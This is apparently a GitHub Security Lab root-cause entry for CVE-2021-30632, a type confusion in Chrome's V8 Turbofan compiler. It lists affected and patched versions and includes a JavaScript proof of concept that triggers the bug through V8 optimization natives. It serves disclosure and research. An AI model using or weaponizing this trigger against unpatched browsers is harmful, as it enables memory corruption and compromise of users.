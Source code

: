 # CVE-2021-30632: Chrome Turbofan Type confusion in Global property access
*Man Yue Mo, GitHub Security Lab*

## The Basics

**Disclosure or Patch Date:** 13 September 2021

**Product:** Google Chrome

**Advisory:** https://chromereleases.googleblog.com/2021/09/stable-channel-update-for-desktop.html

**Affected Versions:** pre 93.0.4577.82

**First Patched Version:** 93.0.4577.82

**Issue/Bug Report:** https://bugs.chromium.org/p/chromium/issues/detail?id=1247763

**Patch CL:** https://source.chromium.org/chromium/_/chromium/v8/v8.git/+/6391d7a58d0c58cd5d096d22453b954b3ecc6fec

**Bug-Introducing CL:** N/A

**Reporter(s):** Anonymous

## The Code

**Proof-of-concept:** 
```js
function store(y) {
  x = y;
}

function load() {
  return x.b;
}

var x = {a : 1};
var x1 = {a : 2};
var x2 = {a : 3};
var x3 = {a : 4};

store(x1);
%PrepareFunctionForOptimization(store);
store(x2);

x1.b = 1;

%OptimizeFunctionOnNextCall(store);
store(x2);

x.b = 1;

%PrepareFunctionForOptimization(load);
load();

%OptimizeFunctionOnNextCall(load);
load();

store(x3);

%DebugPrint(load());
```
